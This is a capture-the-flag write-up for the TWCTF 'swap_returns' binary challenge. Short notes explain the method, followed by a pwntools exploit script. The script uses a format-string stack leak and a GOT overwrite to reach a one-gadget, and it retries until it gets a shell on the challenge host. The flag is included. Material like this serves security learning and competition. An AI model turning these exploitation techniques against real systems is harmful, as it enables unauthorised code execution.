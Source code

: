 # Swap returns
* Swap `atoi` , `printf` to leak `stack`.
* Swap( a , &a ) -> *a = a.
* Swap( `0x601526` , &`0x601526` ).
* Swap( `0x601526 - 6` , `printf GOT - 6` ).
* `printf -> 0x56510` , `one gadget -> 0x45526`.
* Overwrite `printf GOT` last two byte to `0x1526`, gues it add with carry.
* With probability approx 1/16.
```python
#!/usr/bin/env python
from pwn import *

# TWCTF{unlimited_SWAP_Works}

e = ELF( './swap_returns' )

host , port = 'swap.chal.ctf.westerns.tokyo' , 37567
#y = remote( host , port )

context.arch = 'amd64'

def st( a , b ):
    y.sendafter( ':' , '1' )
    y.sendlineafter( ':' , str( a ) )
    y.sendlineafter( ':' , str( b ) )

def sw( a , b ):
    y.sendlineafter( ':' , str( a ) )
    y.sendlineafter( ':' , str( b ) )


while True:
    y = remote( host , port )

    y.sendafter( ':' , '5' )

    st( e.got['atoi'] , e.got['printf'] )

    y.sendafter( ':' , '2' )
    y.sendlineafter( ':' , '%p' )
    y.recvuntil( '0x' )
    stk = int( y.recvuntil( '1.' )[:-2] , 16 )
    success( 'stk -> %s' % hex( stk ) )
    a = stk + 0x2a
    b = a + 8

    sw( e.got['atoi'] , e.got['printf'] )
    y.sendafter( ':' , '7\n' )

    bss = 0x600000
    st( bss + 0x1526 , a  )
    y.sendafter( ':' , '2' )
    st( bss + 0x1526 - 6 , e.got['printf'] - 6  )
    y.sendafter( ':' , '2' )
    y.sendafter( ':' , '7' )

    try:
        sleep( 0.5 )
        y.sendline( 'echo ABC' )
        print y.recvuntil( 'ABC' )
        y.interactive()
        y.close()
    except:
        y.close()

```